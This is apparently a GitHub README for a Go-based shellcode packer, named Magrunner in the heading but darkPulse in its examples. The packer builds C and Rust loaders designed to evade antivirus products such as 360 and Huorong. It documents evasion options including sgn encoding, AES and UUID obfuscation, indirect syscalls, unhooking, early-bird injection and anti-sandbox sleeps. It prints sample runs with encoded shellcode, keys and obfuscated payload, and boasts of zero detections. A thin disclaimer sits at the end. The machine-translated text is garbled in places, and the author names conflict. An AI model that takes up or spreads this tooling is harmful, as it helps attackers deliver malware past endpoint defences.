







# Magrunner-shellcode
Magrunner is a shellcode packer written in go, used to generate various shellcode loaders, anti-killing Huorong, 360 Core Crystal and other common domestic anti-virus software.


## Features

- Using sgn code, using [EgeBalci/sgn ](https://github.com/EgeBalci/sgn) to provide the binary file.
- Supports aes/xor encryption, uuid/words obfuscation, supports callback, fiber, earlybird loading in indirect syscall and unhook modes
- Indirect sysacll refers to the SysWhispers3 project, link：[klezVirus/SysWhispers3](https://github.com/klezVirus/SysWhispers3)
- Unhook uses [unhook method of custom jump function](https://killer.wtf/2022/01/19/CustomJmpUnhook.html)
- The methods described in the article and the github repository mentioned in the article [trickster0/LdrLoadDll-Unhooking](https://github.com/trickster0/LdrLoadDll-Unhooking)
- Only the 64-bit demo is implemented. [LdrLoadDll-Unhooking-x86-x64](https://github.com/fdx-xdf/LdrLoadDll-Unhooking-x86-x64) .
- Improved a piece of code common to 32-bit and 64-bit
- Since sgn is used to encrypt the shellcode, using aes/xor encryption again has become a feature point, and the latter encryption has now been cancelled.
- Because Rust takes too long to compile the words obfuscation template (it takes 40 minutes to compile the cs shellcode), and the simple uuid obfuscation effect is not good, the current method is to obfuscate the first 10% of the shellcode with words, and the rest with uuid. The ratio can be adjusted in the source code. The current compilation time is about 1 minute.
- In fact, the source file of the template is also given to everyone. You can modify it by yourself to avoid static killing, or change it to remote loading.
  
## How to use

### C Template

First, you need to configure the gcc environment. Run `gcc -v` on the command line to get a response.

Personal test gcc version

`gcc version 8.1.0 (x86_64-posix-sjlj-rev0, Built by MinGW-W64 project)`

If they are different, there may be a bug

### Rust template

Note: Currently Rust templates only support the Unhook option.

For configuration environment, refer to the article [How to install Rust in Windows using MSYS2, GNU, and non-MSVC environment](https://zhuanlan.zhihu.com/p/613466378).

I installed the nightly version, but the stable version should also work. Personal toolchain configuration.


Personal toolchain configuration

```
C:>rustup toolchain list
nightly-i686-pc-windows-gnu
nightly-x86_64-pc-windows-gnu (default)
```
The i686 target is set for compiling 32-bit targets. You can use `rustup default nightly-x86_64-pc-windows-gnu` to adjust the default toolchain. The default 64-bit toolchain is sufficient when using the tool. However, if you need to compile a 32-bit loader, you need to install the i686 toolchain. Just make a slight change in the corresponding place in the reference article above.

### Other notes

In order to avoid memory scanning, it will sleep for about 10 seconds, so it cannot go online immediately

In actual combat, it is recommended to use the sandbox parameter, which will sleep for about 40 seconds depending on the machine situation.

After being open source, the anti-virus performance will definitely decline, but the program provides multiple parameters to choose from, and some parameter combinations can still be bypassed.

The code generated by the program is under Rust_Template and C_Template, and some things can be customized to avoid static killing

_            _    _____       _

Example 1：

```
darkPulse.exe -i calc_shellcode.bin -h

                 ░█▄█░█▀█░█▀▀░█▀▄░█░█░█▀█░█▀█░█▀▀░█▀▄░░░░░█▀▀░█░█░█▀▀░█░░░█░░░█▀▀░█▀█░█▀▄░█▀▀
                 ░█░█░█▀█░█░█░█▀▄░█░█░█░█░█░█░█▀▀░█▀▄░▄▄▄░▀▀█░█▀█░█▀▀░█░░░█░░░█░░░█░█░█░█░█▀▀
                 ░▀░▀░▀░▀░▀▀▀░▀░▀░▀▀▀░▀░▀░▀░▀░▀▀▀░▀░▀░░░░░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░▀▀░░▀▀▀░▀▀▀
	                                               
                                   author 0nsec               
	                                version 1.0.0              
                                     2024.09                   

Usage:
	[+]  -h <help>: Show help information
	[+]  -i <path>: Path to raw format shellcode
	[+]  -enc <encryption>: Shellcode encryption method (default: aes)
	[+]  -lang <language>: Select the language of the loader (default 'c', possible values: c,rust)
	[+]  -o <output>: Output file (default: Program)
	[+]  -k <keyLength>:  Encryption key length (default: 16)
	[+]  -obf <obfuscation>: Obfuscate shellcode to reduce entropy (default: uuid)
	[+]  -f <framework>:  Is the target architecture 32-bit or 64-bit?
	[+]  -sandbox <true/false>: Whether to enable anti-sandbox mode (default: true)
	[+]  -unhook <true/false>: Whether to enable unhook mode (default: false, use indirect syscall to load)
	[+]  -loading <loadingTechnique>: Please select the loading method, support callback, fiber, earlybird (default: callback)
	[+]  -debug  <true/false>: Whether to print the shellcode intermediate encryption/obfuscation process (default is 'false', that is, do not print)

```

Example 2：

```
darkPulse.exe -i calc_shellcode.bin -f 32 -sandbox -unhook -debug
      _            _    _____       _
     | |          | |  |  __ \     | |
   __| | __ _ _ __| | _| |__) |   _| |___  ___
  / _` |/ _` | '__| |/ /  ___/ | | | / __|/ _ \
 | (_| | (_| | |  |   <| |   | |_| | \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    \__,_|_|___/\___|

                    author fdx_xdf
                    version 2.1
                    2024.07
[+] 开始为您打包exe

[+] 正在使用 sgn 工具进行编码

[+] 进行sgn编码后的shellcode: 0xe8, 0xe7, 0x00, 0x00, 0x00, 0xeb, 0x04, 0xf7, 0xc8, 0xb9, 0xd8, 0x00, 0x00, 0x00, 0x74, 0x28, 0x35, 0x53, 0xcf, 0x00, 0x00, 0x00, 0x16, 0x22, 0x6c, 0x73, 0x4c, 0xd0, 0x90, 0xbb, 0x18, 0x06, 0xc5, 0x9d, 0xc8, 0x9c, 0x24, 0x28, 0x6e, 0xc8, 0x1b, 0xc4, 0x02, 0x02, 0xfe, 0x16, 0x94, 0x94, 0x94, 0x54, 0x22, 0x23, 0xa4, 0x15, 0x15, 0x6d, 0xc6, 0x56, 0x50, 0xdb, 0x71, 0x79, 0xf2, 0x98, 0x8a, 0xfd, 0x4f, 0x57, 0x16, 0x1d, 0x17, 0x31, 0xfe, 0xf9, 0x25, 0xd9, 0x40, 0x38, 0x22, 0xce, 0xec, 0x91, 0x5c, 0x51, 0x4e, 0x45, 0x47, 0x31, 0x5b, 0x0a, 0x7d, 0x0f, 0x1f, 0x00, 0x32, 0x08, 0x7b, 0x37, 0xd6, 0x28, 0xcb, 0x83, 0x60, 0x31, 0x5e, 0x25, 0x7c, 0x5a, 0x5b, 0x76, 0xfd, 0x84, 0x5a, 0x45, 0x7f, 0x20, 0x43, 0x67, 0xea, 0xc3, 0xd5, 0x1a, 0x95, 0xb9, 0x66, 0x91, 0x9a, 0x13, 0xa4, 0x5c, 0x32, 0xa7, 0x4d, 0xac, 0x21, 0xa5, 0x5c, 0xd9, 0xfd, 0x40, 0x14, 0x4a, 0x31, 0x61, 0x45, 0xa2, 0x6d, 0x0b, 0x78, 0x62, 0x15, 0x1e, 0x36, 0x28, 0x85, 0x40, 0xc3, 0xb7, 0x3a, 0xbb, 0x6b, 0xda, 0x5e, 0x72, 0xa0, 0xfb, 0x5e, 0xbf, 0xd6, 0x6a, 0xc3, 0xbc, 0xa2, 0xc1, 0x1e, 0x32, 0xb5, 0x57, 0xa2, 0x8f, 0x02, 0x66, 0x57, 0xd0, 0x11, 0xa3, 0xa3, 0xa3, 0x03, 0x83, 0x8b, 0xa4, 0xaf, 0xbe, 0xc5, 0xb0, 0x11, 0x4a, 0xb0, 0xc1, 0x5b, 0xcd, 0x59, 0xff, 0x10, 0x8d, 0xee, 0xe9, 0x3c, 0xfc, 0x02, 0x7e, 0x74, 0x02, 0xf9, 0xd1, 0x9a, 0x5f, 0xda, 0x99, 0x6a, 0xc6, 0x55, 0x3f, 0xbf, 0x12, 0xcd, 0xd6, 0x35, 0x84, 0xe6, 0x79, 0x97, 0x02, 0x70, 0x15, 0x89, 0xc0, 0xeb, 0x04, 0x01, 0x5d, 0xcd, 0x58, 0x5b, 0xc1, 0x4b, 0x06, 0x17, 0xeb, 0x04, 0x06, 0x79, 0xc5, 0xf8, 0x0f, 0x46, 0xd2, 0x81, 0x6b, 0x0a, 0x28, 0xd7, 0x99, 0x0a, 0xeb, 0x04, 0xc6, 0xe0, 0xfd, 0x61, 0xc1, 0x4b, 0x0e, 0x9d, 0xeb, 0x04, 0xac, 0x15, 0xdb, 0x80, 0x81, 0x73, 0x12, 0x37, 0x5c, 0xf7, 0x42, 0xeb, 0x00, 0xeb, 0x04, 0xd5, 0x7e, 0xed, 0x06, 0x81, 0x73, 0x16, 0xc7, 0x90, 0xbb, 0x18, 0xeb, 0x04, 0x71, 0x5f, 0x24, 0x89, 0x81, 0x6b, 0x1a, 0x04, 0x41, 0x8f, 0xb1, 0xeb, 0x04, 0x15, 0x91, 0x47, 0xfa, 0x81, 0x6b, 0x1e, 0x9c, 0x24, 0x28, 0x8c, 0xeb, 0x04, 0x9b, 0x0f, 0x5b, 0x0a, 0x81, 0x73, 0x22, 0x38, 0x1f, 0xf5, 0xf8, 0xff, 0xe3

[+] Generated AES key: 0x36, 0x37, 0x54, 0x4c, 0x37, 0x4d, 0x78, 0x53, 0x69, 0x52, 0x53, 0x59, 0x32, 0x47, 0x49, 0x67

[+] Generated IV (16-byte): 0x52, 0x42, 0x62, 0x4c, 0x6e, 0x69, 0x4f, 0x5a, 0x44, 0x44, 0x43, 0x4d, 0x6d, 0x6e, 0x58, 0x
63

[+] Using AES-128-CBC encryption

[+] 进行加密后的shellcode：0x11, 0xef, 0xfd, 0x48, 0x48, 0x69, 0x4f, 0x7e, 0xa7, 0x8d, 0x7d, 0x9a, 0x3c, 0xaf, 0x0b, 0x2f, 0xfc, 0xc7, 0x1f, 0xaa, 0xaf, 0x8d, 0x3b, 0x2f, 0x55, 0x55, 0x0e, 0xa1, 0x95, 0x62, 0x85, 0xc3, 0xc1, 0xa5, 0x67, 0x82, 0x65, 0x38, 0x90, 0x39, 0x20, 0x67, 0x86, 0x6a, 0x5c, 0x18, 0x53, 0x1b, 0xa1, 0x87, 0x1e, 0x9e, 0x70, 0xb1, 0x2e, 0x38, 0x67, 0x0d, 0xe7, 0x2f, 0x3e, 0x3f, 0x49, 0x17, 0xaf, 0x2d, 0x98, 0xcd, 0x68, 0x7d, 0x84, 0x49, 0x35, 0x4d, 0xa5, 0xc5, 0xe3, 0x89, 0xa7, 0x5f, 0x86, 0x6a, 0x72, 0xfa, 0x95, 0x27, 0x60, 0xe7, 0x6f, 0x3a, 0x62, 0x7e, 0x07, 0x1f, 0xc8, 0x11, 0x89, 0xc0, 0x34, 0xb4, 0x0f, 0x65, 0xe6, 0xe3, 0x8e, 0xdb, 0x78, 0x4e, 0x29, 0x51, 0xa2, 0xb2, 0xbf, 0xc8, 0xe7, 0x74, 0x5c, 0xb6, 0x98, 0xec, 0x25, 0xe4, 0x85, 0x9a, 0x08, 0xdc, 0xaf, 0xe9, 0x55, 0xa5, 0xf7, 0x5e, 0x23, 0x66, 0xc1, 0x68, 0xb0, 0xd1, 0x58, 0xa2, 0x68, 0x76, 0x4d, 0xcd, 0x95, 0x5e, 0xf0, 0x1e, 0x2f, 0xd9, 0xca, 0x01, 0xe7, 0x0b, 0x9e, 0x0a, 0x4c, 0x35, 0xe1, 0x83, 0x31, 0xfc, 0x82, 0xa7, 0xbb, 0x20, 0x5d, 0xe2, 0xe0, 0xc3, 0xff, 0xbb, 0x2f, 0xfa, 0xed, 0xdd, 0x3c, 0xfd, 0x37, 0x3f, 0x5b, 0x19, 0x58, 0xa3, 0xa9, 0xf2, 0x0f, 0x77, 0x41, 0x5e, 0x72, 0xb8, 0x20, 0x61, 0x8b, 0x24, 0x64, 0x12, 0x64, 0x99, 0x73, 0x1f, 0xe2, 0x64, 0xa4, 0x07, 0x84, 0xfe, 0x26, 0x4d, 0x29, 0x89, 0xde, 0xcd, 0x5a, 0x91, 0x48, 0x22, 0x4e, 0x22, 0x20, 0x8a, 0x05, 0x03, 0xb8, 0xea, 0x30, 0x86, 0x36, 0x62, 0xbf, 0xdd, 0x71, 0x4d, 0xd2, 0x0c, 0x56, 0x35, 0x8c, 0x87, 0x39, 0x26, 0xc6, 0xc1, 0xef, 0xad, 0xf5, 0x62, 0x2c, 0x09, 0xe3, 0xab, 0xf3, 0x18, 0xb7, 0xa8, 0x2a, 0xcc, 0xdb, 0xf0, 0xd4, 0x38, 0x4e, 0x58, 0x14, 0xa6, 0x4b, 0x7e, 0x9e, 0xba, 0x3e, 0x4f, 0xf3, 0xe8, 0x60, 0xb0, 0x46, 0xa9, 0x5d, 0x98, 0xb9, 0x7d, 0x0a, 0x35, 0x9d, 0xbf, 0x29, 0x8a, 0x79, 0x99, 0x96, 0x8e, 0xd7, 0xbc, 0x77, 0x36, 0xa5, 0xe6, 0x39, 0x3f, 0x32, 0x70, 0x5e, 0x75, 0x9b, 0xd7, 0xb9, 0x24, 0xa9, 0x24, 0x78, 0x80, 0x70, 0x9f, 0x80, 0x2a, 0x43, 0x0f, 0x04, 0xea, 0xd0, 0xba, 0x22, 0x2c, 0x4e, 0x20, 0x64, 0x65, 0x8a, 0x15, 0xc7, 0x28, 0x32, 0x4e, 0xa3, 0x8c, 0x16, 0xf7, 0x3d, 0xee, 0x79, 0x8b, 0x75, 0x4b, 0xdc, 0x3a, 0x27, 0xb6, 0xfc, 0x41, 0x9b, 0x40

[+] Generated UUIDs:"48fdef11-6948-7e4f-a78d-7d9a3caf0b2f",
                    "aa1fc7fc-8daf-2f3b-5555-0ea1956285c3",
                    "8267a5c1-3865-3990-2067-866a5c18531b",
                    "9e1e87a1-b170-382e-670d-e72f3e3f4917",
                    "cd982daf-7d68-4984-354d-a5c5e389a75f",
                    "fa726a86-2795-e760-6f3a-627e071fc811",
                    "b434c089-650f-e3e6-8edb-784e2951a2b2",
                    "74e7c8bf-b65c-ec98-25e4-859a08dcafe9",
                    "5ef7a555-6623-68c1-b0d1-58a268764dcd",
                    "1ef05e95-d92f-01ca-e70b-9e0a4c35e183",
                    "a782fc31-20bb-e25d-e0c3-ffbb2ffaeddd",
                    "3f37fd3c-195b-a358-a9f2-0f77415e72b8",
                    "248b6120-1264-9964-731f-e264a40784fe",
                    "89294d26-cdde-915a-4822-4e22208a0503",
                    "8630eab8-6236-ddbf-714d-d20c56358c87",
                    "c1c62639-adef-62f5-2c09-e3abf318b7a8",
                    "f0dbcc2a-38d4-584e-14a6-4b7e9eba3e4f",
                    "b060e8f3-a946-985d-b97d-0a359dbf298a",
                    "8e969979-bcd7-3677-a5e6-393f32705e75",
                    "24b9d79b-24a9-8078-709f-802a430f04ea",
                    "2c22bad0-204e-6564-8a15-c728324ea38c",
                    "ee3df716-8b79-4b75-dc3a-27b6fc419b40",

[+] 正在为您生成模板文件: Program.c

[+] 编译成功: Program.exe
```

That is, generate in the current directory Program.exe

Note: syscall's earlybird mode because some bugs don't use the syscall mode directly, try not to use it.

## Update log

2024.7.25  Solved some bugs, removed the encryption of shellcode, changed the way of rust obfuscation, rust template can pass core crystal, c template can pass fire velvet

2024.5.20  Solved some bugs, added rust template, see the instructions above for usage

2024.5.4	Solved some bugs, added sgn encoding tool, increased static avoidance effect

2024.5.1	Optimized error prompts, solved part of the bug, optimized unhook template, new debug mode, can choose whether to print intermediate encryption/obfuscation process, newly added compiled Mac executable file

## Implement Effect

7.25 Modify the rust template to go online through the core crystal



5.20 New Rust template，test below：





5.1 Tests by Japanese masters


Weibu cloud sandbox has no detection



360 (Unnucleated crystals): No detection



Tinder: No detection



360 (Core Crystal is turned on): No detection (exe generated by syscall and unhook both successfully bypassed Core Crystal)



## to do list:

- Rust he syscall section of the template
- ~~More encryption algorithms (since sgn encoding is used, encryption is not that necessary)~~
- Separate loading
- ~~- unhook~~
- .....

## Disclaimer

Tip: Do not participate in various attack and defense drills and domestic and foreign infiltration projects. If the source is traced back to my ID or project, it is purely coincidental.

This project is only used for learning, communication and research on security research. It is strongly not recommended that you use it for any practical purposes (including black and gray market transactions, illegal penetration attacks, and cutting leeks). The Internet is not a lawless place! If you use this tool, you should consciously abide by the above requirements.

If you encounter any problems, you can submit an issue, or you can contact me through Penguin: MTM1MDE0MTk0MA==

## Stargazers over time
[](https://starchart.cc/fdx-xdf/darkPulse)
